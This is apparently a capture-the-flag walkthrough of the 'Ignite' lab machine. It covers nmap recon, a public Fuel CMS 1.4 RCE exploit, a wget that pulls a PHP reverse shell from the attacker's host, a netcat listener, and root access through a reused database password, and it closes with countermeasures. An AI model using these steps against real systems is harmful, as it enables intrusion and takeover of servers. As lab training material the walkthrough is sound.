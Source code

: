 # Ignite

![img/ignite-logo.png](img/ignite-logo.png)

## Recon

- **Nmap**

    Starting to find all available port & service with nmap

    ```bash
    Nmap scan report for 10.10.191.118
    Host is up (0.20s latency).
    Not shown: 999 closed ports
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    | http-robots.txt: 1 disallowed entry 
    |_/fuel/
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Welcome to FUEL CMS
    ```

    Found just two open ports (`http` & `ssh`) . The web service seems using a Fuel CMS, so let's check it out

- **CMS**

    ![img/Untitled.png](img/Untitled.png)

    When we open the page, it shows a default CMS installation page, from here we know the cms and the version is (`Fuel CMS v1.4`) , let's see if this CMS has a know vulnerability

    ![img/Untitled%201.png](img/Untitled%201.png)

    This CMS have a RCE vulnerability that we can use to execute code in server shell. We can download and use the exploit from [exploit-db](https://www.exploit-db.com/exploits/47138)

## Exploit

- **Getting Reverse Shell**

    After download the [exploit](https://www.exploit-db.com/raw/47138) file, we need to adjust the exploit . Fill the `url` with the machine ip address

    ![img/Untitled%202.png](img/Untitled%202.png)

    This exploit assume us have `python3` installed on our machine, to use the exploit just type

    ```bash
    python3 47138.py
    ```

    I check the exploit to run `uname -a` and we get the linux version of the machine, this indicate the exploit work properly.

    ![img/Untitled%203.png](img/Untitled%203.png)

    Next we try to get reverse shell with php reverse shell file that can be downloaded from [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).

    Adjust the file change ip with our kali machine ip and the port with the listening port in netcat for later. 

    ![img/Untitled%204.png](img/Untitled%204.png)

    Next upload this reverse php file to machine, for host the directory i use [updog](https://github.com/sc0tfree/updog) 

    ![img/Untitled%205.png](img/Untitled%205.png)

    Then download the reverse php file using `wget`

    ```bash
    wget http://<kali_ip>:<kali_port>/php-reverse-shell.php
    ```

    and check if the download was success

    ![img/Untitled%206.png](img/Untitled%206.png)

    So now we can prepare the netcat to listen on port 4444

    ![img/Untitled%207.png](img/Untitled%207.png)

    Then run the php file on the target machine

    ![img/Untitled%208.png](img/Untitled%208.png)

    ![img/Untitled%209.png](img/Untitled%209.png)

    Next we must upgrade our reverse shell from raw netcat to bash shell so the shell is more interactive using `Python` 

    ![img/Untitled%2010.png](img/Untitled%2010.png)

- **User Flag**

    After gaining reverse shell to the machine, next we searh for the user flag, usually in the CTF game, `user-flag.txt` is located on `/home/username/` 

    ![img/Untitled%2011.png](img/Untitled%2011.png)

    Tha's the user flag, next we try to search the root flag

- **Root Flag (Pwned)**

    Before we go deeper to escalate our privilege, we must conduct the basic enum like find our current working directory or try to find interesting file like `backup`, `configuration`, or `database file`. After try to locate and open "interesting files" we find in `/var/www/html/fuel/application/config` directory contain all configuration files for the framework

    ![img/Untitled%2012.png](img/Untitled%2012.png)

    Try to open the `database.php` file and we found the root account for the database

    ![img/Untitled%2013.png](img/Untitled%2013.png)

    Lets try to login as root in shell with this password, if the root has the same password, we can login and get the root privilege

    ![img/Untitled%2014.png](img/Untitled%2014.png)

    The root password account is same with it's database account, so let's we find the root flag, usually in `/root` directory

    ![img/Untitled%2015.png](img/Untitled%2015.png)

    That's its, we found the root flag and pwning the machine

## Countermeasure

From this game we can learn two things : 

- Update all software or CMS in the web server to the newest version, or patch it if we know there are known vulnerability in the several version.
- Never use the same password for several service account, especially for the root account. Use the different,strong password for all service and for all user
- Encrypt important backup or configuration if we want store it's in our web server.
